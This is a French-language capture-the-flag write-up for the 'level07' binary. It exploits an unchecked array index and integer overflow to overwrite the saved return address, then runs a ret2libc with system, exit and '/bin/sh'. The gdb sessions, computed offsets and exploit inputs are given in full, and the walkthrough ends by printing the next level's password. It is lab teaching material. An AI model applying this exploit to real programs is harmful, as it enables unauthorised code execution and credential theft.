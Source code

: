 On trouve un binaire level07 à la racine du répo, celui ci contient une fonction **main**, **read_number**, **store_number**, **get_unum** et **clear_stdin**.

Le programme set les arguments ainsi que la liste des variables d'environnement (*envp) à 0 puis nous présente 3 commande: quit (qui nous permet de quitter le programme), store (enregistrer un nombre dans un tableau d'int) et read (pour lire n'importe quelle case de ce tableau).

Cependant, pour la fonction read l'index n'est pas controlé, et pour la fonction store, nous avons deux restrictions : l'index ne peut pas être un multiple de 3 et le nombre ne peut pas commencer par **0xb7000000** (parcing appel system).

On va donc essayer de passer outre ce parcing, et tenter d'écraser l'eip pour effectuer un **ret2libc**.

Pour commencer, on cherche l'offset en cherchant d'abord l'adresse de notre tableau 

```gdb
> gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) > disas main
...
(gdb) b *main+520
Breakpoint 1 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd720:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd70c, ebp at 0xffffd718, esi at 0xffffd710, edi at 0xffffd714, eip at 0xffffd71c
(gdb) i r
eax            0xffffd554       -10924
ecx            0xffffd600       -10752
edx            0xffffd600       -10752
ebx            0xffffd554       -10924
...
(gdb) p 0xffffd71c -  0xffffd554
$1 = 456
(gdb) p 456 / 4
$2 = 114
```

L'adresse du début de notre tableau est donc **0xffffd554**, stocké dans **$eax** (premier argument de read_number) et l'adresse de notre eip est **0xffffd71c**.

> L'offset est donc de 456 octet, soit 114 int.

On ne peut écrire directement à 114 à cause de la restriction du multiple de 3 dans read_number.

On va donc essayer d'overflow pour écrire à cette adresse. On calcule donc:  
> UINT_MAX (4294967295 + 1) / 4 + 114 = 1073741938

> UINT_MAX + 1 pour l'overflow

```shell
Input command: store
 Number: 1111638594
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1111638594
 Completed read command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
On effectue une vérification pour être sur d'avoir écrasé l'eip.
En stockant le nombre 1111638594 (0x42424242) à l'index calculé, on constate qu'on a réussi à écrire à l'adresse 114 et que le programme segfault bien sur cette adresse.

```gdb
Breakpoint 1, 0x08048723 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 1657
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
...
(gdb) find  0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

On récupère les adresses nécessaires pour faire notre ret2libc:
> system :  0xf7e6aed0 : 4159090384  
exit :  0xf7e5eb70 : 4159040368  
"/bin/sh":  0xf7f897ec :  4160264172

On va donc stocker dans le tableau a l'index 114 l'adresse **system**, a l'index 115 **exit** et a l'index 116 "/bin/sh".

```shell
./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store 
 Number: 4159090384
 Index: 1073741938
 Completed store  command successfully
Input command: store 
 Number: 4159040368
 Index: 115
 Completed store  command successfully
Input command: store 
 Number: 4160264172
 Index: 116
 Completed store  command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
